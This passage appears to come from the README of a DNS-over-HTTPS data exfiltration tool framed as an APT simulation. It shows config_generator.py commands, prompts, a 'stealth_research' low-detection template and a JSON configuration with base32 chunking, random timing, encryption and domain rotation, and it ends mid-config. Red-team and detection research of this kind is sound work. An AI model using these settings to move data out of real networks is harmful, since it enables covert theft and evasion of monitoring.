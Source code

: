 #### Generate APT Simulation Configuration
```bash
cd exfiltration/client/
python config_generator.py --create

# Interactive prompts:
# Name: APT Simulation
# Description: Advanced persistent threat simulation
# DoH Server: https://doh.local/dns-query  
# Target Domain: update-service.local
# Chunk Size: 8
# Encoding: base32
# Timing Pattern: random
# Base Delay: 30.0
# Compression: yes
# Encryption: yes
# Encryption Key: apt_long_term_key
# Domain Rotation: yes
# Backup Domains: security-updates.local,maintenance-api.local
```

#### Using Template Configurations
```bash
# Create all template configurations
python config_generator.py --templates

# List available configurations
python config_generator.py --list

# Expected output:
# 📋 Configurations disponibles (4):
# ==================================================
# 📄 quick_test
#    📝 Configuration rapide pour tests de base
#    ⚙️ Chunks: 30, Encoding: base64, Timing: regular
#    🎯 Detection: 🔴 High
# 
# 📄 stealth_research
#    📝 Configuration furtive pour recherche d'évasion
#    ⚙️ Chunks: 15, Encoding: custom, Timing: stealth
#    🎯 Detection: 🟢 Low
```

### Real Configuration Examples

#### 1. APT Simulation Configuration
```json
{
  "name": "APT Simulation",
  "description": "Simulation d'APT avec exfiltration très lente et discrète",
  "exfiltration_config": {
    "doh_server": "https://doh.local/dns-query",
    "target_domain": "update-service.local",
    "chunk_size": 8,
    "encoding": "base32",
    "timing_pattern": "random",
    "base_delay": 30.0,
    "delay_variance": 15.0,
    "compression": true,
    "encryption": true,
    "encryption_key": "apt_long_term_key",
    "subdomain_randomization": true,
    "domain_rotation": true,
    "backup_domains": [
```